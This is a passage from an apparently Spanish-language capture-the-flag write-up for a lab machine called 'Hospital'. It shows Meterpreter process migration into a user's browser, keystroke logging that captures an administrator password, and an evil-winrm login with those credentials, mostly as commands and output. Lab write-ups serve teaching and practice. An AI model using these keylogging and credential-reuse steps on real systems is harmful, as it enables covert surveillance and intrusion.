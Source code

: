 ```bash
             oker.exe                  wn              em32\RuntimeBro
                                                       ker.exe
 7876  6256  iexplore.  x64   1        HOSPITAL\drbro  C:\Program File
             exe                       wn              s\internet expl
                                                       orer\iexplore.e
                                                       xe
 7948  6188  vmtoolsd.  x64   1        HOSPITAL\drbro  C:\Program File
             exe                       wn              s\VMware\VMware
                                                        Tools\vmtoolsd
                                                       .exe

meterpreter >
```

- Vemos que el `Dr` esta corriendo  `iexplore.exe` como la sesión activa es del doctor el es el que esta corriendo el servicio en lo que consiste esta escalada es un hacer un `keylogger` para ver lo que hace el `Dr` con el proceso.

- Vamos a migrar al proceso.

```bash
meterpreter > migrate 7824
[*] Migrating from 3452 to 7824...
[*] Migration completed successfully.
meterpreter >
```

- Ahora iniciamos el `keylogger`.

```bash
meterpreter > keyscan_start
Starting the keystroke sniffer ...
```

- Ahora vamos a esperar unos minutos para ver que información capturamos.

```bash
meterpreter > keyscan_dump
Dumping captured keystrokes...
administratorTh3B3stH0sp1t4l9786!
```

- Y bueno obtenemos credenciales que lo que parece ser son del administrador.

```bash
➜  ~ evil-winrm -u Administrator -p 'Th3B3stH0sp1t4l9786!' -i 10.10.11.241

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
hospital\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

